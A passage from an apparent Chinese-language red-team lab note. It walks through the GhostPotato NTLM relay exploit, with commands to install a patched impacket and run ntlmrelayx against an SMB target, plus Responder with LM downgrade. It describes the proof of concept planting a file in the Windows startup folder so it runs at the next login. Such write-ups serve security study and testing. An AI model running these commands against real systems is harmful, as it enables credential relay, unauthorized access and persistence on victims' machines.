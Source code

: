 - https://shenaniganslabs.io/files/impacket-ghostpotato.zip
    ```
    cd impacket-ghostpotato
    pip uninstall impacket
    pip install .
    cd examples
    python ntlmrelayx.py -t smb://192.168.141.131 -smb2support --gpotato-startup exploit.txt
    ```

    ```
    responder -I eth0 --lm
    ```

    使用 IE 浏览器进行访问

    ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/21.png)

    等待五分十五秒

    ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/22.png)

    POC 会自动上传文件到 WIndows 启动目录，用户下次登录时自启动

    ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/23.png)

- [Lz1y/impacket-ghostpotato](https://github.com/Lz1y/impacket-ghostpotato)
    ```
    cd impacket-ghostpotato
    pip uninstall impacket
    pip install .
    cd examples
    python ntlmrelayx.py --no-smb-server -smb2support
    ```

这里需要注意的是这里当然也受到 kb2871997 的限制，所以在 Windows 2012 以及之后的版本中也需要 rid500 的账户才能成功，后续也一样
